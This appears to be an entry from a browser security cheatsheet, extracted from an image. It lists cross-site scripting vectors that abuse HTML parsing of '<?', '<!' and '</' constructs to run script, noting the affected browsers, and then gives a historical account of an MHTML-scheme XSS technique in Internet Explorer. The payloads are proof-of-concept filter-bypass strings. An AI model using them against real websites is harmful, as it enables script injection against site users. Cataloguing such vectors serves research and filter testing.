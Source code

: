 
```
[A] <? foo="><script>alert(1)</script>"> <! foo="><script>alert(1)</script>"> </ foo="><script>alert(1)</script>"> [B] <? foo="><x foo='?><script>alert(1)</script>'>"> [C] <! foo="[[[x]]"><x foo="]foo><script>alert(1)</script>"> [D] <% foo><x foo="%><script>alert(1)</script>">
```

*   internet explorer 5.0
*   internet explorer latest

*   opera 8.x
*   opera latest

*   firefox 1.x
*   firefox latest

*   chrome 3.0
*   chrome latest

*   safari 3.0
*   safari latest

*   xss
*   tagname
*   internet explorer
*   opera
*   firefox
*   chrome
*   safari
*   parsing
*   breaking
*   obfuscation
*   closing tag

*   [http://sla.ckers.org/forum/read.php?2,15812,28148#msg-28148](http://sla.ckers.org/forum/read.php?2,15812,28148#msg-28148)
*   [#134](#134)

reporter：LeverOne, wpulog

### JavaScript execution via MHTML-scheme[#96](#96)[test](test/#96)

This example used the ability to convert the file with any conent type into a web archive using mhtml URI scheme to run JavaScript. For the first time this feature was discovered by Stepanishchev E. in 2006 and became known among web developers as an alternative to data URI for IE6-7\. In 2007, Hasegawa Y. independently proposed a way to use this mhtml feature for XSS. Followed fix was incomplete because it doesn't take into account the possibility of addressing to the contents of the archive using "!value". This possibility as well as the possibility to access from the archive contents to a host domain are used in the example below. Using this vector all sites that do not contain two new lines in the source code and allows users to insert new line were vulnerable - as well as all sites that allow users to upload images without post-upload conversion etc. A link to this web archives could be specified via &lt;IFRAME&gt; or location.href and comparable. This example was published in June 2010, fix released in April 2011\. The mhtml URI scheme doesn't determine the content type now, but archive contents still has access to the host domain.
